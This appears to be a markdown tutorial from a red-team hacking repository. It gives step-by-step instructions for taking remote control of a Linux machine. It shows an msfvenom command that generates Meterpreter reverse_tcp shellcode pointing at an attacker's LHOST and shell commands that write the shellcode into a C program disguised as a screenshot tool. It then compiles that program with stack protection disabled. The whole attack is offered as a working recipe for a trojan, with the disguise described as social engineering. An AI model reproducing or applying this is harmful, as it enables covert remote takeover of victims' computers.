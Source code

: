 #### EXERCISE OBJECTIVES
Take control of a linux system remotely ( metasploit - RAT )

<br />

#### STEPS REQUIRED TO ACHIEVE THIS
[1º - Use Metasploit to Build Shellcode in C Format](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#use-metasploit-to-build-shellcode-in-c-format)<br />
[2º - Insert the C shellcode created into a C program](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#insert-the-c-shellcode-created-into-a-c-program)<br />
[3º - Use GCC to compile the C program (make it executable)](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#use-gcc-to-compile-the-c-program-make-it-executable)<br />

<br />

#### SOCIAL ENGINEERING
'Take a desktop screenshot using a C program'.<br />
The C program not only runs the shellcode (RAM) that allows us to control the target PC remotely,<br />
but also contains a system command that takes a screenshot to the desktop of the target PC using<br />
[MITRE ATT&CK T1113 (xwd package)](https://attack.mitre.org/techniques/T1113/) Technic.<br />

<br /><br />

| DEPENDENCIE | FUNCTION | REQUIRED |
|---|---|---|
| Metasploit | Build shellcode ; recive connection ( handler )| yes |
| [GCC](https://www.cyberciti.biz/faq/debian-linux-install-gnu-gcc-compiler/) | Compile the C Program ( make it executable ) | yes |
| [xwd](http://blog.tordeu.com/?p=135) | Take Screenshots ( social engineering ) | optional |


<br /><br />

#### SHELLCODING DESCRIPTION

<br /><br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#exercise-objectives)

---

<br /><br /><br />

#### Use Metasploit to Build Shellcode in C Format

```
   ## build shellcode folder
   sudo mkdir shellcode
   cd shellcode


   ## Build raw shellcode in C
   # WARNING: Replace LHOST value by your ip address
   # WARNING: If your attacking a x86 bit system, then change the arch from x64 to x86
   #
   sudo msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.11 LPORT=666 -a x64 --platform linux -f c -o chars.raw

```

<br /><br />

#### Insert the C shellcode created into a C program

```
   ## Parse shellcode data and store it into a local bash variable
   pa=$(cat chars.raw | grep -v "=" | tr -d '";' | tr -d '\n' | tr -d ' ')

   ## Build payload.c
   echo "#include<stdio.h>" > payload.c
   echo "#include<stdlib.h>" >> payload.c
   echo "#include<string.h>" >> payload.c
   echo "" >> payload.c
   echo "unsigned char buf[] = \"$pa\";" >> payload.c
   echo "" >> payload.c
   echo "int main()" >> payload.c
   echo "{" >> payload.c
   echo "  printf(\"[i] Please Wait, Taking Screenshot ..\");" >> payload.c
   echo "  printf(\"[i] Screenshot Stored Under: /tmp/ScreenShot.xwd\");" >> payload.c
   echo "  system(\"xwd -root -out /tmp/ScreenShot.xwd\");" >> payload.c
   echo "  system(\"xuwd -in /tmp/ScreenShot.xwd\");" >> payload.c
   echo "  void (*ret)() = (void(*)())buf;" >> payload.c
   echo "  ret();" >> payload.c
   echo "}" >> payload.c
```


<br /><br />

#### Use GCC to compile the C program (make it executable)

```
 sudo gcc -fno-stack-protector -z execstack payload.c -o desktop_screenshot
```

<br /><br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#exercise-objectives)

---

### Suspiciou Shell Activity - RedTeam @2019


